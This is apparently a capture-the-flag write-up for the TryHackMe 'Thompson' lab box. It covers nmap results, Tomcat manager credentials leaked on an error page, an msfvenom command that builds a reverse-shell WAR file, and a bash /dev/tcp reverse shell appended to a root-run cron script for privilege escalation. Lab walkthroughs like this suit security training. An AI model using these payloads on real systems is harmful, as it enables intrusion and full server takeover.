



# [Thompson](https://tryhackme.com/room/bsidesgtthompson)

First as always, `nmap`

```
# Nmap 7.91 scan initiated Wed Aug 11 13:12:17 2021 as: nmap -vvv -p 8009,8080 -sCV -oA nmap/init 10.10.235.48
Nmap scan report for box.ip (10.10.235.48)
Host is up, received conn-refused (0.37s latency).
Scanned at 2021-08-11 13:12:17 +07 for 39s

PORT     STATE SERVICE REASON  VERSION
8009/tcp open  ajp13   syn-ack Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    syn-ack Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Apache Tomcat/8.5.5

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 11 13:12:56 2021 -- 1 IP address (1 host up) scanned in 39.11 seconds
```

Going to the site on port 8080, we're met with the default Apache Tomcat page. Going to the 3 managerial pages, Server Status, Manager App, and Host Manager, we get a prompt for credential. Clicking "Cancel", we get an error page containing the credentials.



Using the found credentials, we can go log into all 3 pages. Looking at the page at `/manager/html`, we see that we can upload and deploy WAR files.



A WAR (Web ARchive) file contains files of a web application, meaning we can upload our own application and run arbitrary code. We can easily generate a malicious WAR file using `msfvenom`.

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ATK_IP LPORT=1337 -f war -o shell.war
```

We can then run a simple `nc` listener, navigate to `http://box.ip:8080/shell`, and get a shell on the server as `tomcat`.



Checking `/home`, we see the user "jack".

```sh
tomcat@ubuntu:/$ ls /home
jack

tomcat@ubuntu:/$ ls -la /home/jack
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Aug 10 23:55 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
```

Inside jack's home directory, we have our user flag, as well as the file `id.sh` for which we have write permission.

```sh
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

Since the the output of `id` inside `id.sh` seems to be `root`, we know that `id.sh` is being run as root. Assuming `id.sh` is being run in/as a cron job, we put a reverse shell in `id.sh`, set up a listener, and wait.

```sh
tomcat@ubuntu:/home/jack$ cat id.sh
#!/bin/bash
id > test.txt
bash -c 'exec bash -i &>/dev/tcp/ATK_IP/1337 <&1'
```

With this, we should have a shell as root on the server.
